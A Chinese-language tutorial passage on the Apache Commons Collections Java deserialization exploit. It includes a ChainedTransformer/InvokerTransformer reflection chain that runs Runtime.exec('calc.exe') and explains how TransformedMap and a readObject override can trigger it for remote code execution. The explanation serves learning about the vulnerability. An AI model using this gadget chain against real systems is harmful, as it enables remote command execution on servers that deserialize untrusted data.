 

## ChainedTransformer 反射链的构造

```
//就是利用了for循环，将transformers[i]运行了transform方法。
public T transform(T object) {
    for (final Transformer<? super T, ? extends T> iTransformer : iTransformers) {
        object = iTransformer.transform(object);
    }
    return object;
}
```

利用ChainedTransformer类进行反射链的构造。

```
ChainedTransformer chain = null;
Transformer[] transformers = new Transformer[] { 
		new ConstantTransformer( Runtime.class ),
    	new InvokerTransformer( "getMethod", new Class[]{ String.class, Class[].class},new Object[]{ "getRuntime", null} ),
        new InvokerTransformer( "invoke", new Class[]{ Object.class, Object[].class },new Object[]{ null, null}),
        new InvokerTransformer( "exec", new Class[]{ String.class}, new Object[] { "calc.exe" }) };

chain = new ChainedTransformer( transformers );
chain.transform( Object.class );
```

​	反射链有了，那么如何让反射链进行执行呢，又是怎么跟反序列化联系在一起的呢。就用到了TransformedMap。



## TransformedMap

​	对Java标准数据结构Map接口的一个扩展，该类可以在一个元素被加到集合内时，自动的对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义，Transformer在TransformedMap进行实例化时作为参数传入。

​	可以通过TransformedMap.decorate()方法 ，来获得一个TransformedMap实例。

```
Map map = TransformedMap.decorate(map, keyTransformer,  valueTransformer);

    protected Object checkSetValue(Object value) {
        return this.valueTransformer.transform(value);
    }
```

​	当key或者value发生变化时，就会触发相应的Transfromer的transfrom()的方法。另外，可以使用之前提到的ChainedTransformer。触发时，ChainedTransformer可以按照顺序调用一系列的变换。**也就是说这里的valueTransformer可以进行人为的构造为之前的payload，使其可以进行远程代码执行。**

- 我们再看一下对于反序列化漏洞的描述：

  ​	在Java反序列化中，对于传入的序列化数据进行安全性检查，将恶意的TransformedMap序列化，可能会导致远程命令执行。
  
  ​	如何使应用触发Transformer变换呢：我们在反序列化的时候，会调用被反序列化的readObject方法。那么如果某个可序列化的类重写了readObject方法，并且对变量进行了键值修改的操作，这个Map变量是可控的就可能实现攻击。
